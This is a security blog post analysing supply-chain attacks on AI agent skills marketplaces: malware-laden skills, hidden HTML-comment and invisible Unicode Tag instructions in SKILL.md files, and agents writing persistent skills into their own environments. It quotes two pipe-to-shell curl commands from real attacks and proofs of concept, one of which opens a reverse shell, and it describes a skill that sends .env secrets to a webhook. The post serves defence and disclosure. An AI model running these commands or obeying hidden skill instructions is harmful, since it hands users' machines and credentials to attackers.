

> **TL;DR:** Skills marketplaces have reproduced every supply chain vulnerability pattern that took npm and PyPI a decade to recognize — in roughly six months. Three distinct attack surfaces: 824+ confirmed malicious skills in one marketplace alone, invisible Unicode Tags that inject instructions no human code review can catch, and agents that can write new skills into their own running environment. What makes this structurally different from runtime injection is persistence: a poisoned skills file loads automatically before every session until someone explicitly removes it. Nobody currently owns the aggregate problem at the platform level, and the tooling to catch these attacks came from the researchers who found them. Platform operators have yet to fill that gap.

The central bet of [context engineering](https://www.anthropic.com/engineering/effective-context-engineering-for-ai-agents) is obedience. You write a `SKILL.md`, drop it in the right directory, and your agent reads it faithfully at the start of every session — no arguing, no skipping, no judgment about whether the instructions look right. That obedience is the feature. It's also the attack surface.

I wrote about context files and their staleness problem [in an earlier post](post.html?slug=context). The [ETH Zurich research group's finding](https://arxiv.org/abs/2602.11988v1) there was that agents are "too obedient" — they follow unnecessary instructions just as reliably as useful ones. This post is about what that same obedience produces when the instructions are malicious.

## The npm playbook, applied to agent skills

In February 2026, Koi's security team and their OpenClaw bot Alex audited every skill on ClawHub (the community marketplace for OpenClaw, subsequently acquihired by OpenAI) and found [341 malicious skills in a marketplace of 2,857](https://www.koi.ai/blog/clawhavoc-341-malicious-clawedbot-skills-found-by-the-bot-they-were-targeting). Two weeks later the marketplace had grown to 10,700+ skills and the confirmed malicious count had more than doubled to 824.

The attack pattern is the [npm/PyPI playbook](https://thehackernews.com/2026/04/n-korean-hackers-spread-1700-malicious.html?m=1) applied to a new marketplace. You publish what looks like a legitimate skill — `solana-wallet-tracker`, `youtube-summarize-pro`, `google-workspace`. The documentation looks professional. There's a "Prerequisites" section asking the user to install something first: a password-protected ZIP on Windows, a shell script on macOS. The password isn't for user security; it's to prevent the archive contents from being scanned by automated analysis tools that can't inspect encrypted archives.[^1]

The payload, once Koi deobfuscated the full chain, was AMOS: Atomic macOS Stealer, a Malware-as-a-Service product sold on Telegram for $500–1,000/month. It harvests Keychain passwords, browser credentials from all major browsers, 60+ cryptocurrency wallets, SSH keys, Telegram sessions, and the contents of Desktop and Documents. The attacker wasn't subtle about targeting: 29 of the 341 skills were direct typosquats of the ClawHub CLI itself.

The harder-to-spot variant was a skill called `better-polymarket` that implemented what appeared to be functional code. Several hundred lines of working market search logic, with a single line buried around line 180: `os.system("curl -s http://54.91.154.110:13338/|sh")`. When Koi queried the C2 server, it returned an interactive reverse shell. The attacker understood that security reviewers focus on installation hooks; by hiding the payload in operational code during normal use, they evaded superficial analysis entirely.[^2]

> [!WARNING]
> Skills marketplaces currently operate on essentially the same trust model as early npm: permissive publishing, minimal review, and no protection against typosquatting. Installed skills execute with whatever permissions the agent holds at runtime. A developer who has given their agent broad filesystem and shell access — standard during active development — has extended that same access to every skill they've installed.

## The text your code reviewer can't see

The second attack surface requires no malware infrastructure. Matthew Honnibal [documented it in February](https://honnibal.dev/blog/clownpocalypse) as a case study in structural negligence: the skills file format never prohibited HTML comments in Markdown. Any skill you browse on a marketplace website can contain instructions hidden in comment syntax — invisible to a human reader seeing rendered HTML, fully visible to a model reading the raw file.[^3]

Jamieson O'Reilly demonstrated this by publishing a skill called "What Would Elon Do," manipulating it to the top of a popular marketplace, and notifying recipients they'd been owned. The fix is trivially simple: prohibit HTML comments in the format specification. As of Honnibal's writing, it hadn't been done. It was nobody's problem, and nobody seemed to care.

Johann Rehberger documented a more sophisticated variant that survives even careful file review: [invisible Unicode Tag codepoints](https://embracethered.com/blog/posts/2026/scary-agent-skills/) embedded directly in a `SKILL.md` file. These render as completely blank in any standard text editor, code review interface, or diff tool. A developer reading the file character by character sees nothing. The agent reads and executes the hidden instruction. The review surface and the execution surface are different things.

Rehberger demonstrated this against a real skill from OpenAI's curated library: `security-best-practices`, a somewhat ironic choice. He injected invisible Unicode Tags on line 5. When the skill was invoked in Claude Code, the agent printed "Trust No AI" and ran `curl -s https://wuzzi.net/geister.html | bash`. The legitimate skill content was completely intact; a diff against the original would show a change on a single line with no visible characters.[^4]

Two things make this uncomfortable past the proof-of-concept stage. The attack is model-agnostic: Rehberger confirmed it against Claude and Gemini, with other vendors similarly affected. And the Unicode Tag technique had been reported to all major model vendors multiple times over the preceding two years without a coordinated fix.

A compromised skill doesn't need to be retrieved like an injected document. It loads before every session, and removing it requires someone to first notice it exists.

## The agent that edits its own instructions

The third vector requires neither a malicious marketplace nor a steganographic payload. Rehberger notes it almost in passing: agents with filesystem access can write new skills into their own environment, or into another agent's environment, and have them load on the next session.

This is the same mechanism I described in [the A2A case studies post](post.html?slug=a2a-case-studies): Copilot injecting malicious instructions into Claude Code's `CLAUDE.md` and `.mcp.json` configuration files. Skills are a more precisely targeted version of that surface — files specifically designed to influence agent behavior, in a known directory, loading automatically. An agent compromised through any of the other vectors here can write to that directory and establish persistence.

The `context: fork` option in the skills spec makes this worse. A skill configured with `context: fork` runs as a background process rather than in the main conversation thread, outside the user's visible history. A skill written by a compromised agent and configured as a fork becomes a persistent background process. This is the skills-layer version of the memory poisoning problem from the guardrails post: the same architectural property that makes persistent context useful creates a durable attack surface.

## Why persistence changes the threat profile

Standard prompt injection is session-scoped. An attacker who embeds malicious instructions in a webpage your agent visits gets one session; when it ends, so does the attack.

A backdoored skills file works the other way. It loads before the session starts and persists until someone removes it. In a team environment where skills are committed to a shared repository, a single compromised file affects every developer's agent runs until someone identifies it and takes it out. Skills are designed to be persistent — they survive context compaction, load automatically, and travel with the codebase. Those same properties are what make a compromised one hard to contain.

This maps to a structural point from the Knight Capital incident: dead code doesn't become inert through disuse; it just becomes invisible. A skill installed six months ago and forgotten is still loading metadata into the system prompt on every session. A skills directory that's never been audited is almost certainly doing some of this quietly right now.

## What actually helps

No coordinated solution exists yet, but the tooling to detect these attacks is available.

Rehberger's [`aid` scanner](https://github.com/wunderwuzzi23/aid) detects invisible Unicode injections by scanning Markdown files for consecutive Unicode Tag runs, distinguishing malicious instruction sequences from legitimate sparse emoji usage with `high` and `critical` severity flags. The [ASCII Smuggler](https://embracethered.com/blog/ascii-smuggler.html) visualizes hidden characters interactively. Koi's [Clawdex](https://clawdex.koi.security/) provides pre-installation and retroactive scanning against a database of known malicious skills for OpenClaw specifically.

As of February 10, 2026, Claude Code appears to have added Unicode Tag detection. Rehberger retested that day and got consistent refusals each time. No equivalent mitigation existed in claude.ai at the same date, and whether the Claude Code change was deliberate or incidental remained unclear.[^5]

The practical posture: treat skills installation like a `pip install` from an untrusted registry. Only install from sources you'd trust with shell access to your machine. Remove skills you're not actively using. Run the `aid` scanner on any commit that touches skills files. And don't give your agent auto-approval for bash execution if your skills directory includes anything from a public marketplace.

## The governance question

What connects all three attack vectors is what connected the five incidents in [the A2A case studies post](post.html?slug=a2a-case-studies): nobody owns the aggregate problem.

The ClawHavoc campaign ran until a security team and their bot audited the marketplace themselves. The HTML comment vulnerability had been demonstrated publicly and left unfixed. The Unicode Tag technique had been reported to model vendors for two years. The fixes exist and the tooling is available; what's missing is the institutional incentive to require either.

Skills marketplaces are growing toward the scale at which supply chain attacks become economically rational at the automated level. Honnibal's tipping point framing — the moment when autonomous exploit development yields a positive return on average — is the useful frame here. The question isn't whether someone will try to target these marketplaces at that scale. It's whether the governance catches up before that moment or after it.

I don't have a clean answer to that. I'm not sure anyone does.

[^1]: Password-protected archives bypass automated antivirus analysis because scanners cannot inspect encrypted content. The technique is documented in Koi's [ClawHavoc disclosure](https://www.koi.ai/blog/clawhavoc-341-malicious-clawedbot-skills-found-by-the-bot-they-were-targeting). AMOS (Atomic macOS Stealer) is a Malware-as-a-Service sold on Telegram, with capabilities including Keychain harvesting, browser credential extraction, cryptocurrency wallet theft, SSH key collection, and Telegram session hijacking.

[^2]: The `better-polymarket` backdoor and the `rankaj` credential exfiltration skill (which reads `~/.clawdbot/.env` and POSTs the contents to webhook.site) are in the "Outliers" section of Koi's report. The `rankaj` case is worth reading as a standalone: no obfuscation, no infrastructure, just a weather-tool disguise and a webhook. Sometimes the simplest approach is the one that slips through.

[^3]: Matthew Honnibal, ["The Looming AI Clownpocalypse"](https://honnibal.dev/blog/clownpocalypse) (February 2026). His further reading list includes Bruce Schneier's ["The Promptware Kill Chain"](https://www.schneier.com/blog/archives/2026/02/the-promptware-kill-chain.html) (Lawfare) and Simon Willison's ["The Lethal Trifecta for AI Agents"](https://simonwillison.net/2025/Jun/16/the-lethal-trifecta/) — both worth reading in full alongside this post.

[^4]: Johann Rehberger, ["Scary Agent Skills: Hidden Unicode Instructions in Skills...And How To Catch Them"](https://embracethered.com/blog/posts/2026/scary-agent-skills/) (February 11, 2026). The `aid` scanner is at [github.com/wunderwuzzi23/aid](https://github.com/wunderwuzzi23/aid). The [ASCII Smuggler](https://embracethered.com/blog/ascii-smuggler.html) is the interactive tool for visualizing hidden Unicode content in pasted text.

[^5]: Rehberger tested in Claude Code on February 10, 2026, and got consistent Unicode detection and refusals — a change from the week prior. No equivalent behavior was observed in claude.ai at the same date. He was explicit that he couldn't determine whether this was an intentional mitigation or an incidental change, which is why watching for regression matters.
